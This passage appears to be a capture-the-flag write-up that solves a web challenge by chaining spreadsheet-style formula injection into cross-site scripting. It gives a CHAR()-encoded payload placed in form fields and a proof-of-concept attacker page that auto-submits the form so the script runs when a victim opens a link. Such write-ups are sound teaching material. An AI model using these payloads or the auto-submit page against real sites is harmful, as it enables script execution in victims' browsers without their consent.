 Now we just have to insert the XSS payload into the existing formula injection payload: 
```
A: 1
B: 0,0)+SUM(
C: 15)&")),2)&CHAR(60)&CHAR(115)&CHAR(99)&CHAR(114)&CHAR(105)&CHAR(112)&CHAR(116)&CHAR(62)&CHAR(97)&CHAR(108)&CHAR(101)&CHAR(114)&CHAR(116)&CHAR(40)&CHAR(100)&CHAR(111)&CHAR(99)&CHAR(117)&CHAR(109)&CHAR(101)&CHAR(110)&CHAR(116)&CHAR(46)&CHAR(100)&CHAR(111)&CHAR(109)&CHAR(97)&CHAR(105)&CHAR(110)&CHAR(41)&CHAR(60)&CHAR(47)&CHAR(115)&CHAR(99)&CHAR(114)&CHAR(105)&CHAR(112)&CHAR(116)&CHAR(62)&SUM(SUM((0"
```

Submitting the given form with this payload will trigger the desired alert. Another requirement of the challenge is to trigger the XSS without user interaction. To fulfill this requirement, an attacker could host the following HTML code with a self-submitting form on their controlled website: 

```
<html>
<head>
<title>POC</title>
</head>
<body>
<form method="POST">

<div class="input-group mb-3">
    <span class="input-group-text" id="labelA">A</span>
    <input type="text" class="form-control" name="A" aria-describedby="labelA" aria-label="A"
            value="1">
</div>

<div class="input-group mb-3">
    <span class="input-group-text" id="labelB">B</span>
    <input type="text" class="form-control" name="B" aria-describedby="labelB" aria-label="B"
            value="0,0)+SUM(">
</div>

<div class="input-group mb-3">
    <span class="input-group-text" id="labelC">C</span>
    <input type="text" class="form-control" name="C" aria-describedby="labelC" aria-label="C"
            value="15)&amp;&quot;)),2)&amp;CHAR(60)&amp;CHAR(115)&amp;CHAR(99)&amp;CHAR(114)&amp;CHAR(105)&amp;CHAR(112)&amp;CHAR(116)&amp;CHAR(62)&amp;CHAR(97)&amp;CHAR(108)&amp;CHAR(101)&amp;CHAR(114)&amp;CHAR(116)&amp;CHAR(40)&amp;CHAR(100)&amp;CHAR(111)&amp;CHAR(99)&amp;CHAR(117)&amp;CHAR(109)&amp;CHAR(101)&amp;CHAR(110)&amp;CHAR(116)&amp;CHAR(46)&amp;CHAR(100)&amp;CHAR(111)&amp;CHAR(109)&amp;CHAR(97)&amp;CHAR(105)&amp;CHAR(110)&amp;CHAR(41)&amp;CHAR(60)&amp;CHAR(47)&amp;CHAR(115)&amp;CHAR(99)&amp;CHAR(114)&amp;CHAR(105)&amp;CHAR(112)&amp;CHAR(116)&amp;CHAR(62)&amp;SUM(SUM((0&quot;">
</div>

<div class="d-flex justify-content-between">
    <a class="btn btn-light" href="/challenge.php?source=challenge.php" role="button">View Source</a>
    <button name="submit" type="submit" class="btn btn-primary">Calculate</button>
</div>
</form>
    <script>
        document.getElementsByName("submit")[0].click()
    </script>
</body>

```
The attacker just needs to send the link to his website containing the HTML form to the victim. As soon as the victim clicks on the link the form is submitted automatically and the XSS payload injected into HTML, which leads to the execution of our XSS payload. 

Now we solved the challenge :)